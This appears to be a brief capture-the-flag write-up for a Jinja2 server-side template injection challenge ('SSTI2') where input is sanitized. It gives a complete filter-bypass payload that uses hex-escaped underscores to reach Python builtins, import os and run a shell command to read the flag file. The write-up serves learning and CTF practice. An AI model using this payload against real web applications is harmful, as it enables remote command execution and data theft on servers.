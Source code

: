 # SSTI2

## identifying the vulnerability

we are welcomed by a form that ask for input just like in SSTI challenge but the hint says that the input is being sanitized

if we try to input the same as before we get an error

![image](../../Assets/12-1.png)

so we need to clean the input first using this website as reference https://onsecurity.io/article/server-side-template-injection-with-jinja2/

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

![image](../../Assets/12-2.png)

and we get the flag